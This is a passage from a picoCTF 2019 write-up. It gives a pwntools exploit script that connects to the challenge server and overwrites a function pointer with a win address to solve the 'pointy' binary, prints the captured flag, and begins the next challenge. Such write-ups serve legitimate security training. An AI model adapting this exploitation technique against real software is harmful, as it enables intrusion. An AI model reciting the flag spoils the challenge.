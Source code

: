 ```python


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/pointy_1_e2b49b679521bd6d957b864c91e7b39e')
  REMOTE = True

win_addr = 0x08048696

payload = ''

send = lambda x: sh.sendlineafter('\n', x)

send('a')
send('b')
send('a')
send('b')
send(str(win_addr))

sh.sendlineafter(' student\n', 'c')
send('d')
send('b')
send('d')
send(str(0))

sh.interactive()  
```

flag: `picoCTF{g1v1ng_d1R3Ct10n5_16d57b6c}`

# seed-sPRiNG

## Problem

The most revolutionary game is finally available: seed sPRiNG is open right now! seed_spring. Connect to it with nc 2019shell1.picoctf.com 4160.
